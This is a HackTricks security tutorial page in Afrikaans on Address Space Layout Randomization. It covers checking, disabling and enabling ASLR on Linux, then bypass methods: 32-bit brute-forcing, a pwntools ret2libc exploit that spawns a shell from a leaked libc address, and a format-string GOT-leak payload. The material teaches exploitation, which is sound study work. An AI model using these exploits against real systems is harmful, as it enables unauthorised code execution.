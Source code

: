 # ASLR

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

**Address Space Layout Randomization (ASLR)** is 'n sekuriteitstegniek wat in bedryfstelsels gebruik word om die **geheue-adresse te randomiseer** wat deur stelsel- en toepassingsprosesse gebruik word. Deur dit te doen, maak dit dit aansienlik moeiliker vir 'n aanvaller om die ligging van spesifieke prosesse en data te voorspel, soos die stapel, hoop, en biblioteke, en dit verminder sekere tipes aanvalle, veral buffer-oorvloeiings.

### **ASLR-status Kontroleer**

Om die ASLR-status op 'n Linux-stelsel te **kontroleer**, kan jy die waarde uit die `/proc/sys/kernel/randomize_va_space`-lêer lees. Die waarde wat in hierdie lêer gestoor word, bepaal die tipe ASLR wat toegepas word:

* **0**: Geen randomisering. Alles is staties.
* **1**: Konservatiewe randomisering. Gedeelde biblioteke, stapel, mmap(), VDSO-bladsy word gerandomiseer.
* **2**: Volledige randomisering. Bo en behalwe elemente wat deur konservatiewe randomisering gerandomiseer word, word geheue wat deur `brk()` bestuur word, gerandomiseer.

Jy kan die ASLR-status kontroleer met die volgende bevel:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktivering van ASLR**

Om ASLR te **deaktiveer**, stel jy die waarde van `/proc/sys/kernel/randomize_va_space` in op **0**. Die deaktivering van ASLR word gewoonlik nie aanbeveel buite toets- of foutopsporingscenarios nie. Hier is hoe jy dit kan deaktiveer:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Jy kan ook ASLR uitskakel vir 'n uitvoering met:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivering van ASLR**

Om ASLR te **aktiveer**, kan jy 'n waarde van **2** skryf na die `/proc/sys/kernel/randomize_va_space` lêer. Dit vereis gewoonlik root-privileges. Volledige randomisering kan gedoen word met die volgende bevel:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Volharding oor Herlaai**

Veranderinge wat met die `echo` opdragte gemaak word, is tydelik en sal herstel word met herlaai. Om die verandering volhardend te maak, moet jy die `/etc/sysctl.conf` lêer wysig en die volgende lyn byvoeg of wysig:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Na die wysiging van `/etc/sysctl.conf`, pas die veranderinge toe met:
```bash
sudo sysctl -p
```
Dit sal verseker dat jou ASLR-instellings behoue bly oor herlaai.

## **Oorskrydings**

### 32-bit brutaal krag

PaX verdeel die proses-adresruimte in **3 groepe**:

* **Kode en data** (geïnisialiseer en ongeïnisialiseer): `.text`, `.data`, en `.bss` —> **16 bits** van entropie in die `delta_exec` veranderlike. Hierdie veranderlike word lukraak geïnisialiseer met elke proses en by die aanvanklike adresse gevoeg.
* **Geheue** toegewys deur `mmap()` en **gedeelde biblioteke** —> **16 bits**, genoem `delta_mmap`.
* **Die stok** —> **24 bits**, verwys as `delta_stack`. Dit gebruik egter effektief **11 bits** (vanaf die 10de tot die 20ste byte insluitend), uitgelyn op **16 byte** —> Dit lei tot **524,288 moontlike werklike stokadresse**.

Die vorige data is vir 32-bietestelsels en die verminderde finale entropie maak dit moontlik om ASLR te omseil deur die uitvoering herhaaldelik te probeer totdat die aanval suksesvol voltooi is.

#### Brutaal krag idees:

* As die aanval plaaslik is, kan jy die basisadres van libc brutaal krag. (nuttig vir 32-bietestelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Indien jy 'n afgeleë bediener aanval, kan jy probeer om die adres van die `libc`-funksie `usleep` te **brute-force**, met 10 as argument. As die bediener op enige punt 10 sekondes langer neem om te reageer, het jy die adres van hierdie funksie gevind.

{% hint style="success" %}
Op 64-biet-stelsels is die entropie baie hoër en is dit nie moontlik nie.
{% endhint %}

### Met 'n lek

* **Uitdaging is om 'n lek te hê**

Indien jy 'n lek ontvang (maklike CTF-uitdagings), kan jy verskuiwings daaruit bereken (onder die aanname byvoorbeeld dat jy die presiese libc-weergawe ken wat in die stelsel wat jy aanval, gebruik word). Hierdie voorbeeld van 'n aanval is onttrek uit die [**voorbeeld van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (kyk na daardie bladsy vir meer besonderhede):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Misbruik 'n buffer overflow dit sou moontlik wees om 'n **ret2plt** te misbruik om 'n adres van 'n funksie uit die libc te eksfiltreer. Kontroleer:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Net soos in ret2plt, as jy 'n arbitrêre lees deur 'n formaatstrings kwesbaarheid het, is dit moontlik om die adres van 'n **libc funksie** uit die GOT te eksfiltreer. Die volgende [**voorbeeld is hier vandaan**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
### Ret2ret

Probeer ASLR te omzeilen deur adresse binne die stapel te misbruik:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
